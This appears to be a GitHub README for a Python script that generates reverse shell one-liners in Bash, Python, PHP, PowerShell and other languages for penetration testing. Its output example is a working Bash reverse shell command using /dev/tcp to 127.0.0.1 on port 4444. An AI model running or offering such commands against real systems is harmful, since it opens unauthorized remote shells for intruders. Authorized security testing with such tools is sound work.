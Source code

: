 # Reverse Shell One-Liner Generator

A Python script to generate reverse shell commands for various programming languages. Useful for ethical penetration testing and demonstration purposes.

## Features
- Generate reverse shell commands for Bash, Python, PHP, PowerShell, and more.
- Customizable IP address and port.
- Option to save commands to a file.

## Usage
1. Clone the repository:
git clone https://github.com/yourusername/reverse-shell-generator.git

2. Run the script:
python ReverseShellGenerator.py

## Output Example
Bash: bash -i >& /dev/tcp/127.0.0.1/4444 0>&1

## Screenshot
![image](https://github.com/user-attachments/assets/357791bc-2578-4592-a50a-50b7ea916942)


## Disclaimer
**For educational and authorized use only. Misuse of this tool may result in legal consequences.**


## License:
This project is licensed under the **MIT License**. See the [LICENSE](LICENSE) file for details.
